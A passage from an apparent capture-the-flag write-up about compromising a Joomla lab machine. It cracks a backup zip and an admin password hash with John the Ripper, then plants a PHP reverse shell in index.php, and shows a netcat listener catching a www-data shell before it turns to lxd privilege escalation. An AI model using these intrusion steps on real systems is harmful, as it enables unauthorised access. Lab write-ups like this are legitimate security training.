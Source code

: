 Wait how? 

1. Using `zip2john`, we can get the hash: `zip2john backup.zip > hash `
2. Then, do `john hash` and there you go!

### 1.8. Logging In
Recall we saw `db/joomladb.sql` file above. In it, I found:

```
LOCK TABLES `cc1gr_users` WRITE;
/*!40000 ALTER TABLE `cc1gr_users` DISABLE KEYS */;
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com',{hash was here, but it passed away :( },0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
UNLOCK TABLES;
```

Again, we use `john` to crack.

![Control Panel for Joomla CMS](https://i.imgur.com/Tlv0LBQ.png)


## 2. Foothold

![error.php page in Joomla page](https://i.imgur.com/lmsDNof.png)
`error.php` Didnt work as it does in WordPress. So, I put the reverse shell in `index.php`. 

I used [Reverse Shell Generator](https://www.revshells.com/) to get the PHP reverse shell.


```
┌──(kali㉿kali)-[~/Desktop/tools/files]
└─$ nc -lnvp 443  
listening on [any] 443 ...
connect to [10.17.8.184] from (UNKNOWN) [10.10.173.69] 51608
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:02:25 up 16 min,  0 users,  load average: 0.00, 0.09, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
sh: 0: can't access tty; job control turned off
$ whoami
www-data

```
We are in!

## 3. PrivEsc
[This article](https://www.hackingarticles.in/lxd-privilege-escalation/) is **very** interesting and detailed, listing each and every stage of the epxloit.

After getting the alpine file in the system using python http server, we do the following.
(If you are stuck in the python3 server setup, feel free to lookup other of my writeups.)
